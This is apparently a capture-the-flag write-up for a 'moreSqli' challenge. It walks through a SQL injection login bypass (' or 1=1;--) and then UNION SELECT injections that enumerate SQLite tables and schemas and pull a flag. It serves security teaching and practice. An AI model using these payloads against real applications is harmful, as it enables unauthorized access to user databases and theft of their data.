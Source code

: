 # solution of moreSqli

## 1- bypassing the login

- when we try to login using username = admin and password = admin the response page gives us a query that is being excuted 
<img align="center" src="./images/login.png">
```SQL
SQL query: SELECT id FROM users WHERE password = 'admin' AND username = 'admin'
``` 
- so we can see that the password is the first field in the query so our injection should be there 
```
username= blah
password = blah' or 1=1;--
```
<img align="center" src="./images/home.png">

## 2- retrieving the data from the search box and the display

- since there is 3 attributes dispalyed one the table so i assumed there is three and i injected the following:
```SQL
algiers' union select 1,2,3;--
```
<img align="center" src="./images/first.png">
- i tried to retrieve the database version

```SQL
algiers' union select 1,2,sqlite_version();--
```
<img align="center" src="./images/second.png">
- next i tried to enumerate tables of the database other than system tables

```SQL
algiers' union select 1,2,tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%';--
``` 
<img align="center" src="./images/third.png">
and we get : users,more_table,offices,users.

- now its time to retrieve the structure of each table
```SQL
algiers' union select 1,2,sql from sqlite_master;--
```
<img align="center" src="./images/forth.png">

- and finally we have evrything to get the flag

```SQL
algiers' union select 1,id,flag from more_table;--
```

<img align="center" src="./images/fifth.png">
